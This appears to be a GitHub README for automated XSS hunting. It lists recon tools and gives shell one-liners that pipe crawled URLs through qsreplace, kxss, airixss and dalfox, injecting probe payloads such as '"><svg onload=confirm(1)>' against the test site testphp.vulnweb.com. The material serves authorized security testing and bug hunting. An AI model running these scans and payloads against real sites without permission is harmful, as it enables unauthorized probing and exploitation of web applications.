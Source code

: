 # One-liner-XSS-Scanner
This is a collection of commands that's help you to find XSS via automation.

## Via Bash Script
### Tools:
> [Kxss](https://github.com/Emoe/kxss) : To find reflected values.

> [uro](https://github.com/s0md3v/uro): Declutters url lists for crawling.

> [gf](https://github.com/tomnomnom/gf): A wrapper around grep, to help you grep for things.

> [qsreplace](https://github.com/tomnomnom/qsreplace): To replace all query string values with a user-supplied value.

> [Freq](https://github.com/takshal/freq): To find alert values.

> [airixss](https://github.com/ferreiraklet/airixss): To find XSS during recon.

> [dalfox](https://github.com/hahwul/dalfox) : It’s a powerfull XSS scanner.

## First Case

```
echo http://testphp.vulnweb.com | gau | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```


![1_HTuqyTBftAdkwqfRL3jQ_w](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/b7975f46-d5ce-4adb-9f35-87d6b7af9294)


```
cat param.txt | kxss | awk '{print $9}'| dalfox pipe
```


![1_FO3algvVNFOrDIYh7wKbVQ](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/fbf15891-47df-43fe-a47a-aefc64c6493b)


```


cat param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
echo http://testphp.vulnweb.com | gau | gf xss | uro  |qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"


```

![1__JCZZJX2T1XiHxH0FZPTWw](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/cfb1baa0-f59c-4447-9753-093fd6b62c77)



## *You can Read the full methodology here at [Medium](https://0xelkot.medium.com/advanced-xss-discovery-streamlining-your-attack-strategy-with-cutting-edge-automation-tools-88cfd0f68c8e)*
